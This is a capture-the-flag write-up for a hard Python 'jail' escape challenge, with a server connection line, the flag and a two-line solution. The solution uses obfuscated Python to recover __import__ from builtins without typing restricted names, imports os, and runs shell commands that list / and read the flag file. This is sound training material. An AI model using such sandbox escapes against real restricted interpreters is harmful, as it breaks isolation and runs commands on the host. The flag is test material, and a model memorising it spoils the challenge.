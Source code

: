 # Capital Jail hard

--------------------

### Description

**Difficulty:** hard

This jail seems to be far more advanced! Can you escape now?

```
nc some.server 1339
```

**Flag:** shadowctf{5c446e9e48716d0b2a93e6de38a0de13}

--------------------

### Solution

``` python
(getattr(*([[x[len([[]])]for (x)in(globals().items())if 'builtins'in (x[len([])])][len([])]]+[[(y)for (y)in(dir([x[len([[]])]for (x)in(globals().items())if 'builtins'in (x[len([])])][len([])]))if 'import'in (y)][len([])]]))("os").popen("ls /").read())
(getattr(*([[x[len([[]])]for (x)in(globals().items())if 'builtins'in (x[len([])])][len([])]]+[[(y)for (y)in(dir([x[len([[]])]for (x)in(globals().items())if 'builtins'in (x[len([])])][len([])]))if 'import'in (y)][len([])]]))("os").popen("cat /flag????f?c???????ad?b???b?a?ea?f?c??.txt").read())
```

--------------------

### Running

`docker-compose up`
